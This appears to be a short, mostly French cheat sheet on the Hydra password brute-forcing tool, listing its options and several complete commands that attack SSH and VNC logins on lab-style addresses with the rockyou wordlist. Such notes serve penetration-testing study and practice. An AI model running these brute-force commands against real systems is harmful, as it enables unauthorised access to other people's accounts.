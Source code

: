 https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/
https://www.einstijn.com/penetration-testing/website-username-password-brute-forcing-with-hydra/

Il existe un script qui permet d’exécuter hydra rapidement et simplement en posant seulement quelques questions nécessaires.

hydra-wizard

Les options avec hydra sont les suivantes:

    -l si l’on connait le login ( user, admin, root … )
    -p si l’on souhaite essayer un mot de passe particulier
    -L Indique le chemin du dictionnaire de nom d’utilisateur
    -P Indique le chemin du dictionnaire de mot de passe
    -M Indique le chemin du fichier contenant tous les hôtes Les services les plus communs pouvant être attaqués sont ssh, ftp, smb, pour voir la totalité des services:
    hydra -h

Exemples:
hydra -L /home/theophile/Bureau/namelist.txt -P /home/theophile/Bureau/passlist.txt 192.168.43.198 ssh
hydra -l admin -p password -M /home/theophile/Bureau/target.txt ssh

User brute-forcing to find the username & password
`hydra -l jan -P /home/anthony/Desktop/rockyou.txt ssh://10.10.10.124`

hydra -l mark -P /usr/share/wordlists/rockyou.txt 10.10.33.74 ssh
hydra -l mark -P /usr/share/wordlists/rockyou.txt 10.10.33.74 vnc
hydra -l alexander -P /usr/share/wordlists/rockyou.txt ssh://10.10.33.74 -V
